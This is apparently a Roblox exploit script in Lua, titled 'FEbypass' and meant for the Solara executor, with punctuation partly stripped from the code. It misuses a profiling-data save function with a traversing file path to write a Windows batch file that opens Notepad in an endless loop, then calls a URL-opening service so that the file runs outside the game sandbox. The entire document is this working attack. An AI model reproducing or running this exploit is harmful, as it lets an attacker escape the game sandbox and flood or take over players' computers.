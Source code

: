 # FEbypass (works only for solara)
local LinkingService = gameGetService(LinkingService)
local ScriptContext = gameGetService(ScriptContext)

local scriptContent = [[@ECHO off
top
START %SystemRoot%system32notepad.exe
GOTO top
]]

local payload = ScriptContextSaveScriptProfilingData(scriptContent, ........test.bat)
LinkingServiceOpenUrl(payload)
